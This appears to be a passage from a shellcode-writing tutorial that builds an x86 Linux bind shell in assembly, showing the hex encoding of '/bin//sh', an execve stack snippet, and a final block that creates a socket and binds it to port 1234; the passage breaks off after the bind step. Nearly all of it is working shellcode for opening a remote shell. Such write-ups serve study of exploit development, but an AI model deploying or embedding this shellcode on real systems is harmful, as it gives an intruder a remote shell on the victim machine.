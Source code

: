 ```python
>>> import binascii
>>> binascii.hexlify(b'hs//')
b'68732f2f'
>>> binascii.hexlify(b'nib/')
b'6e69622f'
```
First we push a null to the stack, then push our /bin//sh hex. The point ebx to the stack, null out the ECX register, move the execve syscall into EAX, and finally execute. 

```nasm
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov ecx, edx
mov al, 0xb	
int 0x80
```

## Final Assembly Code

```nasm
global _start

section .text
_start:

	
	;zero out registers
	
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx

	; Create the socket

	mov al, 0x66 		; socketcall (102)
	mov bl, 0x1		    ; SYS_SOCKET (1)
	push ecx		    ; protocol (0)
	push ebx		    ; SOCK_STREAM (1)
	push 0x2		    ; AF_INET (2)
	mov ecx, esp		; point ecx to top of stack
	int 0x80		    ; execute socket

	mov edi, eax		; move socket to edi

	; Bind the socket

	
	mov al, 0x66		; socketcall (102)
	pop ebx			    ; SYS_BIND (2)
	xor edx, edx		; zero out edx
	push edx		    ; INADDRY_ANY (0)
	push word 0xd204	; sin_port = 1234
	push bx			    ; AF_INET (2)
	mov ecx, esp		; point ecx to top of stack
	push 0x10		    ; sizeof(host_addr)
	push ecx		    ; pointer to host_addr struct
	push edi		    ; socketfd
	mov ecx, esp		; point ecx to top of stack 
	int 0x80		    ; execute bind
	
	xor eax, eax		; zero out eax

```